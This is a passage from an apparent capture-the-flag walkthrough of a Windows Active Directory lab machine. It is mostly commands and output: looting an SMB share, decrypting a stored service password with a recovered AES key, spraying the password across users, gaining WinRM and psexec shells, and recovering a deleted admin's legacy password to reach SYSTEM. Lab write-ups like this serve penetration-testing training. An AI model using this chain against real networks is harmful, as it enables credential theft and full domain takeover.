oNetwork.MapNetworkDrive strDriveLetter, strRemotePath
WScript.Quit
```

`mkdir Audit`

`smbclient --user 's.smith' --password='sT333ve2' //10.10.10.182/Audit$ -c 'prompt OFF;recurse ON;lcd /home/nabla/Audit;mget *'`:
```
getting file \CascAudit.exe of size 13312 as CascAudit.exe (12.7 KiloBytes/sec) (average 12.7 KiloBytes/sec)
getting file \CascCrypto.dll of size 12288 as CascCrypto.dll (14.6 KiloBytes/sec) (average 13.6 KiloBytes/sec)
getting file \RunAudit.bat of size 45 as RunAudit.bat (0.1 KiloBytes/sec) (average 9.4 KiloBytes/sec)
getting file \System.Data.SQLite.dll of size 363520 as System.Data.SQLite.dll (217.8 KiloBytes/sec) (average 88.4 KiloBytes/sec)
getting file \System.Data.SQLite.EF6.dll of size 186880 as System.Data.SQLite.EF6.dll (44.1 KiloBytes/sec) (average 66.7 KiloBytes/sec)
getting file \DB\Audit.db of size 24576 as DB/Audit.db (30.7 KiloBytes/sec) (average 63.6 KiloBytes/sec)
getting file \x64\SQLite.Interop.dll of size 1639936 as x64/SQLite.Interop.dll (401.7 KiloBytes/sec) (average 165.7 KiloBytes/sec)
getting file \x86\SQLite.Interop.dll of size 1246720 as x86/SQLite.Interop.dll (242.8 KiloBytes/sec) (average 186.9 KiloBytes/sec)
```

`tree ./Audit`:
```
./Audit
├── CascAudit.exe🔍
├── CascCrypto.dll🔍
├── DB
│   └── Audit.db
├── RunAudit.bat🔍
├── System.Data.SQLite.EF6.dll
├── System.Data.SQLite.dll
├── x64
│   └── SQLite.Interop.dll
└── x86
    └── SQLite.Interop.dll

4 directories, 8 files
```

`cat ./Audit/RunAudit.bat`:
```                     
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```

`file ./Audit/DB/Audit.db`:
```
./Audit/DB/Audit.db: SQLite 3.x database, last written using SQLite version 3027002, file counter 60, database pages 6, 1st free page 6, free pages 1, cookie 0x4b, schema 4, UTF-8, version-valid-for 60
```

`sqlite3 ./Audit/DB/Audit.db`:
```
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
DeletedUserAudit  Ldap              Misc            
sqlite> SELECT * FROM DeletedUserAudit;
6|test|Test
DEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d|CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
7|deleted|deleted guy
DEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef|CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local
9|TempAdmin|TempAdmin🔍
DEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a|CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local
sqlite> SELECT * FROM Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==🔍|cascade.local
```

`echo 'BQO5l5Kj9MdErXx6Q6AGOw==' | base64 -d`:
```
������D�|zC�;
```

`file ./Audit/CascAudit.exe`:
```
./Audit/CascAudit.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

`file ./Audit/CascCrypto.dll`:
```
./Audit/CascCrypto.dll: PE32 executable (DLL) (GUI) Intel 80386 Mono/.Net assembly, for MS Windows, 4 sections
```

`wine ./dnSpy.exe`





`vim ./aes_decrypt_password.py`:
```python
import pyaes
from base64 import b64decode

key = b"c4scadek3y654321"
iv = b"1tdyjCbY1Ix49842"

aes = pyaes.AESModeOfOperationCBC(key, iv = iv)

decrypted = aes.decrypt(b64decode('BQO5l5Kj9MdErXx6Q6AGOw=='))
print(decrypted.decode())
```

`python3 ./aes_decrypt_password.py`:
```
w3lc0meFr31nd
```

`netexec smb 10.10.10.182 -u ./domain_users.txt -p 'w3lc0meFr31nd'`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\BackupSvc:w3lc0meFr31nd STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\CascGuest:w3lc0meFr31nd STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\a.turnbull:w3lc0meFr31nd STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd🔑
```

`netexec winrm 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'`:
```
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd (Pwn3d!)🚀
```

`evil-winrm -i 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents>
```
🐚


`whoami`:
```
cascade\arksvc
```

`net.exe user arksvc`:
```
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 4:18:20 PM
Password expires             Never
Password changeable          1/9/2020 4:18:20 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/29/2020 9:05:40 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin🔍      *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

`Get-ADObject -ldapfilter "(&(objectclass=user)(isDeleted=TRUE))" -IncludeDeletedObjects`:
```
Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin📌
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```

`Get-ADObject -ldapfilter '(&(objectclass=user)(DisplayName=TempAdmin)(isDeleted=TRUE))' -IncludeDeletedObjects -Properties *`:
```
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz📌
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin👤
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```

`echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d`:
```
baCT3r1aN00dles🔑
```

`netexec smb 10.10.10.182 -u 'administrator' -p 'baCT3r1aN00dles'`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\administrator:baCT3r1aN00dles (Pwn3d!)🚀
```

`impacket-psexec 'cascade.local/administrator:baCT3r1aN00dles@10.10.10.182'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.182.....
[*] Found writable share ADMIN$
[*] Uploading file UPomhXtG.exe
[*] Opening SVCManager on 10.10.10.182.....
[*] Creating service arsO on 10.10.10.182.....
[*] Starting service arsO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> 
```
🐚


`whoami`:
```
nt authority\system
```

`dir C:\Users\Administrator\Desktop`:
```
 Volume in drive C has no label.
 Volume Serial Number is CF98-2F06

 Directory of C:\Users\Administrator\Desktop

11/08/2021  03:58 PM    <DIR>          .
11/08/2021  03:58 PM    <DIR>          ..
01/09/2025  12:54 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,655,471,616 bytes free
```

`type C:\Users\Administrator\Desktop\root.txt`:
```
c13fd***************************🚩
```


---
---
